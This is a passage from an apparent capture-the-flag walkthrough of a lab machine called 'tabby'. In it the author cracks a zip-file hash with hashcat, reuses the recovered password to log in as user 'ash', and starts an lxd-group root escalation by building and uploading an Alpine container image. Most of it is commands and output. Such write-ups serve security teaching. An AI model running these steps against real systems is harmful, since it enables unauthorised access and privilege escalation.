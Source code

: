 ```console
$ hashcat ./tabby.ziphash ./rockyou.txt  -m 17225
hashcat (v6.2.6) starting
...
$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$:admin@it
```

That password works for the only user on the system, `ash`:

```console
tomcat@tabby:/var/www/html/files$ su - ash
Password:
ash@tabby:~$ cat user.txt
4b581c...
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Now, the `lxd` group is interesting. WIth that group membership I should be able to mount the root filesystem, as root, by mounting it from within a container.

First, I'll build the container on my workstation.

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
xd lReceiving objects:  42% (21/50), 1.71 MiB | 224.00 KiB/s
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 218.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.

$ cd lxd-alpine-builder/

$ sudo ./build-alpine
[sudo] password for kali:
Determining the latest release... v3.20
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.20/main/x86_64
Downloading alpine-keys-2.4-r1.apk
...
(22/24) Installing scanelf (1.3.7-r2)
(23/24) Installing musl-utils (1.2.5-r0)
(24/24) Installing alpine-base (3.20.2-r0)
Executing busybox-1.36.1-r29.trigger
OK: 10 MiB in 24 packages

$ sudo chmod 644 alpine-v3.20-x86_64-20240809_1509.tar.gz
$ scp alpine-v3.20-x86_64-20240809_1509.tar.gz ash@t:
Warning: Permanently added 't' (ED25519) to the list of known hosts.
alpine-v3.20-x86_64-20240809_1509.tar.gz                                                                  100% 3761KB   2.8MB/s   00:01
```
